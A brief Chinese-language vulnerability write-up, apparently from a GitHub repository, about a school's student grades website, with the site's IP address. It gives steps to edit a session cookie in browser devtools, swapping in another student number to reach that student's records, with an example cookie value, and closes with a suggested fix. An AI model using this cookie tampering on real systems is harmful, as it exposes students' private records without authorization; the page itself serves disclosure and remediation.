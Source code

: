 # 學生成績系統漏洞
[<<回前頁>>](https://github.com/William957-web/SGGScyber)   
[網站連結:http://140.126.151.12/csnskj](http://140.126.151.12/csnskj)  
## 詳情
登入後按下F12開啟開發人員工具，選擇Application打開更改STU項目cookie  
格式如下  
mS%5FNO=學號&Erroring=%A1%40&xLevel=0&IsVar=True&mCLA%5FNO=11010036++&mCLA%5FNA=%A4T%B7q++++  
e.g:  
mS%5FNO=1092145&Erroring=%A1%40&xLevel=0&IsVar=True&mCLA%5FNO=11010036++&mCLA%5FNA=%A4T%B7q++++  
![image](https://user-images.githubusercontent.com/85293841/183595628-b5bd676f-7563-43f0-bb1f-e88228cbf7f9.png)  
## 解決方法:
加密cookie並增加cookie項目使之難以被輕易攻破
